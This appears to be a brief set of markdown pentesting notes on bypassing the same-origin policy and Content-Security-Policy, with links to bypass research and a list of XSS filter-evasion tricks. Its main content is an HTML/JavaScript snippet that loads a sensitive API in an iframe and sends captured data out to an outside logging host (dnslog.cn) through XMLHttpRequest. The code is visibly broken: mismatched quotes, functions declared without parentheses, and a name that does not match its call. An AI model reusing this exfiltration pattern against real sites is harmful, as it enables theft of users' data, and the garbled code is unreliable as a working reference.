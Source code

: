 # Striction
## SOP
## CSP
Content-Security-Policy
- Data protocol allowed: xss by iframe, combining postMessage to steal info
- [Bypass of CSP](https://csplite.com/csp320/)
- [bypassing-csp-with-policy-injection](https://portswigger.net/research/bypassing-csp-with-policy-injection)
```html
<html>
<body>
<iframe id='attack' src="http"//get_method_api_response_contains_sensitive_info/api"></iframe>
<script type="text/javascript">

var frame = document.getElementById("attack");
frame.addEventListener("load", function(){
  setTimeout(sendInfo,600)}
  )
 
function getInfo{
var payload = btoa(<script>                     #data protocol
    window.addEventListener(
     function(event)
       {xhr = new XMLHttpRequest();
        xhr.open("GET","http://dnslog.cn?message="+ event.data);
        xhr.send(null)}
     )
}     

function sendInfo{
 frames[0].postMessage("")
}
</script>
</body>
</html>
```
- [ClickJacking](https://resources.infosecinstitute.com/topic/bypassing-same-origin-policy-part-3-clickjacking-cursorjacking-filejacking/)


# Filter
- keyword
- characteristic
  - [iframe srcdoc](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/xss-cross-site-scripting/iframes-in-xss-and-csp.md#iframes-in-xss)
  - /xxx/.source
- 
